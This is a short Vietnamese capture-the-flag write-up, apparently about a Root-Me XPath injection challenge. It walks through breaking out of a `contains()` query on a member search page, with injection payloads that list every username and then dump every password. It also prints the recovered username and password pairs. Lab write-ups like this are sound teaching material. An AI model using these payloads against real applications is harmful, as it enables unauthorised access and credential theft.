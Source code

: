 Như thường lệ, chúng ta sẽ không thử ở trang login mà sẽ inject ở trang tìm kiếm members 

Nhập thử chữ `a` vào input:

> 2 results
>
> - Harry
> - Maxim

Vậy có vẻ đây là nơi tìm kiếm username của những thành viên có chứa chữ trong ô input. Thử inject bằng cách nhập dấu `'`:

> Error during search, invalid XPath syntax : //user/username[contains(., ''')]

Ok, câu truy vấn đã rõ: nó gọi hàm `contains` trong childnode `username` trong node `user`, giờ thử với payloads sau:

`')] |  //user/username[contains(.,'`

kết quả trả về:

> 5 results
>
> - Bob
> - Harry
> - Alex
> - Maxim
> - Lory

không có tài khoản nào nhìn giống tài khoản `admin`, hơi lạ. Tìm hint trên mạng, hóa ra tài khoản `admin` không tên là 'admin', vậy mình cứ truy vấn ra hết password xem cái nào có cấu trúc giống rootme nhất thôi! Payloads: `')] |  //user/password[contains(.,'`

kết quả:

>  10 results
>
> - Bob
> - 123456dsrtg
> - Harry
> - MB5PRCvfOXiYejMcmNTI
> - Alex
> - ezlolsdf
> - Maxim
> - 346DFE364
> - Lory
> - jsehrf6325

tài khoản Harry có mật khẩu khả nghi nhất.